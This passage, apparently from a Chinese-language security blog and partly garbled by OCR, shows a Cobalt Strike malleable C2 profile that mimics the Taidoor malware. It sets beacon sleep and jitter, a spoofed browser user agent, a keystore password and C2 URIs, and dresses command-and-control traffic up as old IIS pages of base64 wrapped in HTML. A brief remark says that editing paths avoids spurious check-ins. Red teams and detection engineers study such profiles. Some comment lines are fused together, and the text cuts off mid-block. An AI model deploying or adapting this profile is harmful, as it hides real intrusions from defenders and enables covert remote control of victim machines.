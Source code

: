 ```bash
    server {
        header "Server" "Microsoft-IIS/5.0";
        header "Content-Type" "text/html";
        header "Connection" "close";

        output {
            print;
        }
    }
}

```

手动修改一下路径可以避免大部分假上线

```bash
set sample_name "Taidoor";
set sleeptime "40000"; # use a ~40 second main intervalset jitter    "35"; # 35% jitterset maxdns    "255";
set useragent "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)";
https-certificate {
    set keystore "dongfangshuye.xyz.store";
    set password "123456";
}
http-get {
    set uri "/C2/login.jsp /C2/parse.jsp /C2/page.jsp /C2/default.jsp /C2/index.jsp /C2/process.jsp /C2/security.jsp /C2/user.jsp";
    client {
        header "Connection" "Keep-Alive";
        header "Cache-Control" "no-cache";
        # encode session metadata        metadata {
            netbiosu;
            parameter "mn";
        }
    }
    # no special server side indicators as the report didn't say anything one way    # or the other about these.    server {
        header "Server" "Microsoft-IIS/5.0";
        header "Content-Type" "text/html";
        header "Connection" "close";
        output {
            base64;
            prepend "<style>\n";
            prepend "<head>\n";
            prepend "<html dir=ltr>\n";
            prepend "<!DOCTYPE HTML PUBLIC -//W3C//DTD HTML 3.2 Final//EN>\n";
            append "\n</style>\n";
            append "</head>\n";
            append "</html>\n";
            print;
        }
    }
}
http-post {
    set uri "/C2/submit.jsp";
    client {
        header "Connection" "Keep-Alive";
        header "Cache-Control" "no-cache";
        id {
            netbios;
            parameter "du";
        }
        output {
```